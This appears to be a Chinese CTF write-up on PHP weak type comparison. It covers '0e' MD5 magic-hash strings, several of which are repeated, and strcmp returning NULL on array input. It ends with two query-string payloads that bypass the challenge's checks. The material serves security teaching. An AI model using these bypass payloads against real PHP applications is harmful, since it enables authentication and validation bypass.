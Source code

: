 ## 前女友

此题的考点是PHP若类型，这儿考了一个等号的若类型比较的过程与strcmp函数的问题。

- 0e12345 == 0  0e 45678 == 0

由于在字符串比较的时候可以将其转换成数字比较。所以在md5的值进行比较的时候，可以使用产生0e开头且之后为数字的md5的值。

常用的有：

```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

奇数行为原来的字符串，偶数行为md5计算之后的值。

当然在这儿也可以利用数组的方式绕过，因为md5函数的参数为数组时返回值为`NULL`。

- strcmp — Warning

[官方strcmp](http://php.net/manual/zh/function.strcmp.php)

在strcmp的官方文档中存在一个如下警告：

```php
strcmp("foo", array()) => NULL + PHP Warning
```

当数组与字符串进行比较的时候返回值为`NULL`，由于非空即为真的原则，很容易绕过了strcmp函数。

`payload1：v1=s878926199a&v2=s155964671a&v3[]=1`

`payload2：v1[]=1&v2[]=2&v3[]=3`

